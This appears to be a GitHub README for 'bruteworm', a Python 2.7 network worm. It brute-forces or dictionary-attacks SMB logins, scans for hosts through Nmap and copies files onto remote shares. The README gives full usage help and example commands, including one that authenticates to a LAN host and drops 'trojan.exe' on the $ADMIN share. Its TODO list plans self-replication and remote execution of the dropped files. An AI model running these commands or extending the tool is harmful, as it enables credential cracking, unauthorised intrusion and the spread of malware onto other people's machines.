 # bruteworm
A simple worm that uses brute force and dictionary attacks through the network to infect vulnerable machines.

Inspired from the famous [SMB Worm Tool](http://www.securityweek.com/hackers-used-sophisticated-smb-worm-tool-attack-sony).

Currently limited to making connections with SMB directly over TCP (445) and SMB via NetBIOS API (139), but I may add support for more protocols in the future.

### Dependencies
* Python 2.7
* Nmap 6.4

### Features
* Generates LM/NTLM hash lists from dictionary words or variable length permutations of specified alphabets
* Scans for hosts with SMB running (forwards to Nmap) and performs OS detection upon session negotiation using impacket network library
* Copies files from local host to public or administrative shares when correct password found

### Usage
```bash
usage: bruteworm [-h] [-i INPUT] [-o OUTPUT] [-d DICTIONARY DICTIONARY] [-b]
                 [-c COUNT] [-n MIN] [-x MAX] [-a ALPHABET] [-t TARGET]
                 [-p PORT] [-u USER] [-s SHARE] [-v]
                 {build,scan,infect}

positional arguments:
  {build,scan,infect}                   interaction with specified hosts/subnet victims

optional arguments:
  -h, --help                            show this help message and exit
  -i INPUT, --input INPUT               source file path
  -o OUTPUT, --output OUTPUT            destination file path
  -d FILE PATH, --dictionary HASH PATH  attack of either type pass|hash + dictionary file path
  -b, --bruteforce                      use brute force for password guessing
  -c COUNT, --count COUNT               number of hashes to generate
  -n MIN, --min MIN                     minimum number characters in password
  -x MAX, --max MAX                     maximum number characters in password
  -a ALPHABET, --alphabet ALPHABET      alphabet of allowed characters without spaces
  -t TARGET, --target TARGET            target hosts/subnet e.g. 192.168.2.10, 192.168.2.0/24
  -p PORT, --port PORT                  target port e.g. 139
  -u USER, --user USER                  target username to use for authentication
  -s SHARE, --share SHARE               target share name to drop malware
  -v, --verbosity                       console has 3 verbosity levels
```

### Examples
Generate precomputed hashes from a dictionary of words:
```bash
python bruteworm build -vvv -i /path/to/dictionary -o /save/to/hashes
```
Generate precomputed hashes for all possible passwords of 3-6 digits with lower case characters and digits:
```bash
python bruteworm build -vvv -i -n3 -x6 -o /save/to/hashes -a abcdefghijklmnopqrstuvwxyz0123456789
```
Authenticate as user john at host 192.168.1.135 using a password dictionary and copy trojan.exe to share $ADMIN:
```bash
python bruteworm infect -vvv -t 192.168.1.135 -d pass /path/to/dictionary -i trojan.exe -o trojan.exe -u john -s $ADMIN
```

### TODOs
* Make worm standalone so it can replicate itself more easily - as opposed to only acting as a dropper
* Add support for remotely executing copied files using scheduled tasks or other API
* Add support for user enumeration

